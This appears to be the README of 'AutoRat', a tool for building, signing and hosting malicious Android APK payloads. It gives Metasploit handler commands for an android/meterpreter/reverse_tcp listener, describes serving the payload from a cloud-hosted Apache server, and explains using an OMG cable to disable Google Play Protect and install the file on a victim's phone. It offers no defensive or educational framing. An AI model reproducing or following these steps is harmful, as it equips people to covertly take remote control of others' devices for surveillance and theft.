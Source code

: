 # AutoRat

## Requirements

Firstly, for the Requirements we need the following
- Ubuntu OS over a server
- Steady internet

## Installation

Run the following commands

```bash
sudo bash install.sh
```

and 

```python
pip3 install -r requirements.txt
```

## How to run

`python3 main.py`

## Guilines on How to use

- `First`: The options must be selected and must be in an order for example for a payload to be signed it must be first be generated.
- `Second`: While generating the payload make sure that the .apk extention is written.
- `Third`: Once payload signing process starts **read and follow each instruction carefully** and at the end when you see a prompt `[no]` enter `yes` and press enter.
- `Fourth`: The listener option or the listener you are using to connect with the effected system will need a few manual inputs from your end. `Enter in the msfconsole` They are:

```bash
use use exploit/multi/handler
set payload payload/android/meterpreter/reverse_tcp
set lhost <<ip>>
set lport <<port>>
run
```
Just copy paste them one by one

## File locations
- The signed files will be located in the `signed_files` directory
- The keyfile and the payload file will be located in `payload_files` directory

## Hosting

I suggest you have a web-hosting on servers like `Linode` or `AWS` so that the hosting process is easy.
The payload files will be hosted on the apache server and you just need to enter the `http://<IP>/<apk_name>` to start the download.
The OMG cable must first disable the Google play protect for this to be successful.

`Point to remember`: all the packages needed are installed by the installer script and no manual installations are needed.

## OMG cable

The OMG cable has its own scripting and the guild will be provided on the time of buying and these are the things that must be taken care using the OMG cable
- Disable Google Play Protect
- Install the file

The scripting language has its own methods of doing this and this is the path to diable google play protect.
```
Google play >> top-right profile >> play-protect option >> playprotect settingd >> disable the 2 options
```
